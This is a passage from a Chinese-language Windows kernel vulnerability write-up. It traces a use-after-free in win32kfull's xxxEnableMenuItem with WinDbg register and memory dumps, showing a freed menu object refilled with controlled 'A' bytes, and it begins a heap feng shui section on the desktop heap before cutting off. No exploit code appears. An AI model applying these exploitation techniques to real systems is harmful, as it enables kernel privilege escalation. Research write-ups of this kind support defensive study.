   
函数调用处。  

```
kd> p
rax=ffffd7d74062a3e0 rbx=ffffd7d74062a5f0 rcx=ffffd7d74062cfe0
rdx=0000000000000000 rsi=0000000000000002 rdi=000000000000f010
rip=ffffd7aa3ac796ca rsp=ffffde00877b0a50 rbp=0000000000000000
 r8=ffffd7d740600700  r9=ffffc70664451d70 r10=000000032ca29f71
r11=ffffde00877b0640 r12=00000000000204d0 r13=00000000000104af
r14=0000000000000020 r15=ffffd7d74062cfe0
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
win32kfull!xxxEnableMenuItem+0x46:
ffffd7aa`3ac796ca e835e20100      call    win32kfull!MNGetPopupFromMenu (ffffd7aa`3ac97904)
```

  

```
RCX
```

  
寄存器包含我们之前在调用 
```
win32kfull!MenuItemState
```

  
后观察到的相同指针。让我们再次 dump 该对象的内容 —— 这次我们会发现内存已经发生了变化。  

```
kd> db ffffd7d74062cfe0
ffffd7d7`4062cfe0  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
ffffd7d7`4062cff0  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
ffffd7d7`4062d000  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
ffffd7d7`4062d010  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
ffffd7d7`4062d020  41 41 41 41 41 41 40 30-30 30 30 00 00 00 00 00  AAAAAA@0000.....
ffffd7d7`4062d030  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffd7d7`4062d040  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffd7d7`4062d050  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
```

  
那么这是如何发生的？我们的回调不仅释放了内存 —— 还将其重新分配为可控数据。  
  
让我们深入探讨下一个问题：如何用可控数据替换内存中已释放的内核对象？  
## 漏洞利用 (Exploit)  
### 堆风水 (Heap Feng Shui)  
  
在深入探讨本漏洞利用中使用的堆风水技术之前，让我们先回顾一些核心概念。  
  
在 Win32k 中，大多数 GUI 相关对象都与特定的 桌面 (Desktop) 相关联。这些对象从 桌面堆 (Desktop Heap)  
中分配，该堆在桌面初始化时创建。这个堆由 nt  
实现 (
```
RtlpAllocateHeap
```
